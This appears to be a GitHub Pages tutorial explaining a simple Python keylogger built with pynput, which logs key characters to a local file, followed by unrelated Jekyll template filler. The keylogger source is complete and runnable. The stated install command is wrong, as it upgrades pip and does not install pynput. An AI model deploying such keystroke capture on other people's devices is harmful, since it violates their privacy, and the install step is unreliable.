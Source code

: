 ```yaml
---
layout: default
---
```


Text can be **bold**, _italic_, or ~~strikethrough~~.

[Link to another page](./another-page.html).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.

# Installing And Importing The Required Module And Packages

For this project we need to install the _pynput_ package and make use of the _keyboard_ module.

The _keyboard_ moduel is required to monitor keyboard inputs. This allows for the program to listen for key presses.

> The package can be installed via the _Terminal_ using the following command:
>
> python.exe -m pip install --upgrade pip

Once the package is installed, we need to import the module using the following line:

```python
# Importing the necessary module
from pynput import keyboard
```

# Creating A Function

Firstly, we define a function named _keyPressed_ that takes a _key_ parameter which represents the key that is pressed.

A print line is added to see the real-time presses.

The function then creates a file named "keyfile.txt" in append mode so that previous content in the file is not overwritten. This file will keep a record of all keys pressed. The _with_ ensures the file is properly closed after the code is executed.

Inside the _try_ block, the code attempts to get the character representation of the pressed key and if successfull it writes this character to "keyfile.txt" file.

The _except_ is used in case there are any exception that occur (when the key pressed doesnt have a character representaion, like Shift or Ctrl) in which case it will print out the message "Error getting char".

```python
def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")
```

# Main Code

This block of code sets up the keyboard listener, starts it running in the background, by creating a new _Listener_ object from the _keyboard_ module. The _on_press_ parameter is set to the _keyPressed_ function we defined earlier. This means that every time a key is pressed, the _keyPressed_ function will be called with the key as its argument. The main program runs indefinitely (or until the user decides to end it by pressing Enter). This allows the script to continuously monitor and log keystrokes for as long as it's left running.


```python
# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# The Full Code

```python
# Import the keyboard module from pynput library
from pynput import keyboard


def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")


# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# Contents Of keyfile.txt

![Branching](keyloggerFile.png)

### Here is an unordered list:

*   Item foo
*   Item bar
*   Item baz
*   Item zip

### And an ordered list:

1.  Item one
1.  Item two
1.  Item three
1.  Item four

### And a nested list:

- level 1 item
  - level 2 item
  - level 2 item
    - level 3 item
    - level 3 item
- level 1 item
  - level 2 item
  - level 2 item
  - level 2 item
- level 1 item
  - level 2 item
  - level 2 item
- level 1 item

### Small image

![Octocat](https://github.githubassets.com/images/icons/emoji/octocat.png)

### Large image

![Branching](https://guides.github.com/activities/hello-world/branching.png)


### Definition lists can be used with HTML syntax.

<dl>
<dt>Name</dt>
<dd>Godzilla</dd>
<dt>Born</dt>
<dd>1952</dd>
<dt>Birthplace</dt>
<dd>Japan</dd>
<dt>Color</dt>
<dd>Green</dd>
</dl>

```
Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
```

```
The final element.
```
